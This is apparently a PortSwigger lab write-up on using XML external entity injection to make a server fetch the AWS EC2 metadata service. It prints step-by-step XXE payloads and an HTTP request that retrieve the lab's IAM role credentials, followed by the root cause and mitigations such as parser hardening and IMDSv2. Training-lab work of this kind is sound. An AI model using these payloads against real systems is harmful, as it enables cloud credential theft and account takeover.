




# Lab 02: Exploiting XXE to Perform SSRF Attacks

> **Topic**: XXE (XML External Entity) Injection
> **Lab Number**: 02
> **Platform**: PortSwigger Web Security Academy

## Category
XXE Injection — SSRF via External Entity to AWS EC2 Instance Metadata Service

## Vulnerability Summary
The application's stock-check feature parses XML without disabling external entity resolution. By pointing a `SYSTEM` entity at the AWS EC2 Instance Metadata Service (`http://169.254.169.254/`), the server fetches the internal HTTP endpoint on the attacker's behalf and returns the response inline. A three-step enumeration — metadata root → IAM role name → role credentials — yielded a live AWS `AccessKeyId`, `SecretAccessKey`, and session `Token` for the `admin` IAM role.

## Attack Methodology

### Step 1: Probe the Metadata Root
Injected an external entity pointing at the IMDS root to enumerate available paths:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/" > ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Response:
```
"Invalid product ID: iam"
```

The server resolved the entity, fetched the IMDS endpoint, and reflected the response body in the error message. The path `iam` was returned, confirming the metadata service is reachable and the IAM subtree exists.



### Step 2: Enumerate the IAM Role Name
Drilled into the IAM security-credentials path to retrieve the attached role name:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/" > ]>
```

Response:
```
"Invalid product ID: admin"
```

The role name is `admin`.



### Step 3: Retrieve the Role Credentials
Fetched the full credentials document for the `admin` role:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin" > ]>
```

Response:
```json
{
  "Code": "Success",
  "LastUpdated": "2026-05-15T08:25:01.509088770Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "6UNnf1Y6GmWwB3CRRdm4",
  "SecretAccessKey": "0eSHeBNrgtI3TA0upqggKUyQOwFnEN1XkUJI1llq0",
  "Token": "AufVTeapKlMNpIn1NpmueOyqb37aC7iwot6642WUaN6EKTwnEwTaN1cmDiEV2f9vq7KcwseP9hHgGqys98VLVj4og7p1ere2bxywz8sxexpqP72gmravNCOdfEKLNY5kSaAwUxBY7YzUVeBWCMmqVbqHRZlfm14DkOMjpr3uw4NCzEl6luLtC1lJTIeaTJNCWjQwEs5n4s3WzgWt9m0jikHXNnYICUw8IiGB2O6rcakZ5jJzKZRshvhqDRZtlO7p",
  "Expiration": "2032-05-13T08:25:01.509088770Z"
}
```

Live AWS credentials exfiltrated. Lab solved.





## Technical Root Cause

The XML parser resolves `SYSTEM` entities against any URI scheme the underlying HTTP client supports — including `http://`. The EC2 Instance Metadata Service at `169.254.169.254` is a link-local address reachable only from within the instance. It requires no authentication and returns sensitive instance configuration including IAM role credentials. The application's error response reflects the resolved entity value verbatim, completing the exfiltration channel.

```python
# Vulnerable — parser makes outbound HTTP request on behalf of attacker
parser = etree.XMLParser()                        # external entities enabled
tree = etree.fromstring(xml_data, parser)
product_id = tree.find('productId').text          # contains IMDS response body
return JsonResponse({"error": f"Invalid product ID: {product_id}"}, status=400)
```

### Attack Chain

| Step | Entity URL | Response |
|---|---|---|
| 1 | `http://169.254.169.254/latest/meta-data/` | `iam` |
| 2 | `http://169.254.169.254/latest/meta-data/iam/security-credentials/` | `admin` |
| 3 | `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin` | Full JSON credentials |

## Impact
- **AWS Credential Theft**: `AccessKeyId`, `SecretAccessKey`, and session `Token` for the `admin` IAM role — usable immediately with the AWS CLI or SDK to perform any action the role permits
- **Privilege Escalation to Cloud Infrastructure**: Depending on the role's permissions, this can mean full AWS account takeover — S3 data exfiltration, EC2 control, IAM manipulation
- **Internal Network Probing**: The same primitive can reach any internal HTTP service on the instance's network, not just IMDS
- **No Authentication Required**: Exploitable by any user with access to the stock-check feature

## Proof of Concept

**Step 1 — Enumerate metadata root:**
```
POST /product/stock HTTP/2
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/" > ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

**Step 2 — Get IAM role name:**
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/" > ]>
```

**Step 3 — Dump credentials:**
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin" > ]>
```

## Key Takeaways
1. **XXE Is an SSRF Primitive**: Any `SYSTEM` entity can point at an HTTP URL, not just `file://`. The parser becomes a server-side HTTP client under the attacker's control — the same impact as a classic SSRF vulnerability.
2. **IMDS Is the Crown Jewel on EC2**: The metadata service at `169.254.169.254` hands out live IAM credentials with no authentication. Any SSRF or XXE on an EC2 instance should be treated as a potential full cloud compromise.
3. **IMDSv2 Mitigates This Specific Path**: AWS IMDSv2 requires a session token obtained via a PUT request before credentials can be fetched. A simple GET-based XXE cannot satisfy this requirement, blocking the attack. Enforcing IMDSv2 is a critical defence-in-depth control.
4. **The Fix Is at the Parser, Not the Network**: Blocking `169.254.169.254` at the firewall helps but is not sufficient — the same XXE-as-SSRF technique works against any internal HTTP service. Disabling external entity resolution eliminates the root cause.

## Mitigation

### 1. Disable External Entity Processing (Primary Fix)
```python
parser = etree.XMLParser(resolve_entities=False, no_network=True, load_dtd=False)
tree = etree.fromstring(xml_data, parser)
```

### 2. Enforce IMDSv2 on EC2 Instances
```bash
# Require session-oriented IMDSv2 — blocks unauthenticated GET-based IMDS access
aws ec2 modify-instance-metadata-options \
  --instance-id <id> \
  --http-tokens required \
  --http-endpoint enabled
```

### 3. Apply Least-Privilege IAM Roles
The `admin` role should not be attached to a web-facing instance. Scope instance roles to only the specific AWS actions the application needs.

### 4. Block IMDS at the Application Layer
If the parser cannot be hardened immediately, block outbound requests to `169.254.169.254` via host-based firewall rules as a stopgap:
```bash
iptables -A OUTPUT -d 169.254.169.254 -m owner --uid-owner www-data -j DROP
```

## References
- [PortSwigger XXE Lab — Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)
- [PortSwigger XXE — XXE via SSRF](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks)
- [AWS — Instance Metadata and User Data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
- [AWS — Use IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-15*
*Writeup by vibhxr*
